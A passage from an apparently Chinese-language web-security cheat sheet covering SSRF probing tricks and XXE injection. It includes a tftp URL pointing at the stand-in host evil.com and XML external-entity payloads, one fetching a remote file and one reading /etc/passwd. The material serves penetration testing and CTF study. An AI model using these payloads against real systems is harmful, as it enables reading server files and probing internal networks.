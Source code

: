 ```
SSH-2.0-libssh2_1.4.2

-> ssh version
```

- Content-Length
    - 送超大Content-length
    - 連線hang住判斷是否為HTTP Service

## UDP

- tftp
    - `tftp://evil.com:5566/TEST`
    - syslog

---

SSRF Bible:

https://docs.google.com/document/d/1v1TkWZtrhzRLy0bYXBcdLUedXGb9njTNIJXa3u9akHM/edit

Testing Payload:

https://github.com/cujanovic/SSRF-Testing


# XXE

## 內部實體

```xml
<!DOCTYPE kaibro[
    <!ENTITY param "hello">
]>
<root>&param;</root>
```

## 外部實體

- `libxml2.9.0`以後，預設不解析外部實體
- `simplexml_load_file()`舊版本中預設解析實體，但新版要指定第三個參數`LIBXML_NOENT`

```xml
<!DOCTYPE kaibro[
    <!ENTITY xxe SYSTEM "http://kaibro.tw/xxe.txt">
]>
<root>&xxe;</root>
```

```xml
<!DOCTYPE kaibro[
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>&xxe;</root>
```
